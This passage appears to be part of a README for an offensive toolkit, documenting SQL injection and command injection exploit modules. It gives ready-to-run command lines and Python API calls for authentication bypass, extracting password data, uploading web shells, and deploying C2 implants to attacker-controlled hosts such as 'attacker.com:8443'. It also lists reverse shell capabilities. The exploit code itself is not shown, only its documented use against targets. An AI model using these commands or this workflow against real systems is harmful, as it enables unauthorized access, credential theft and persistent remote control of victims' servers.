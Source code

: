 ### 3. SQL Injection Exploit (`initial_access/sqli_exploit.py`)

Automated SQL injection exploitation framework.

**Features:**
- Vulnerability detection
- Authentication bypass
- Data extraction (UNION-based)
- Web shell upload (via OUTFILE)
- C2 implant deployment

**Usage:**

```bash
# Test for vulnerability
python initial_access/sqli_exploit.py http://target.com --endpoint /login --param username --test

# Authentication bypass
python initial_access/sqli_exploit.py http://target.com --bypass

# Extract data
python initial_access/sqli_exploit.py http://target.com --extract users.password --param id

# Deploy C2 implant
python initial_access/sqli_exploit.py http://target.com --c2 http://attacker.com:8443
```

**Python API:**

```python
from initial_access.sqli_exploit import SQLiExploit

exploit = SQLiExploit('http://target.com')

# Test vulnerability
is_vuln = exploit.test_vulnerability('/login', 'username', 'POST')

# Authentication bypass
response = exploit.auth_bypass('/login', 'username', 'password')

# Extract data
data = exploit.extract_data('/page', 'id', 'users', 'password')

# Deploy implant
success = exploit.deploy_implant('/page', 'id', 'http://c2.com:8443')
```

### 4. Command Injection Exploit (`initial_access/cmd_injection.py`)

Command injection exploitation with multiple injection techniques.

**Features:**
- Vulnerability detection (error-based and time-based)
- Multiple injection techniques
- OS detection (Unix/Windows)
- Interactive pseudo-shell
- Reverse shell capabilities
- C2 implant deployment
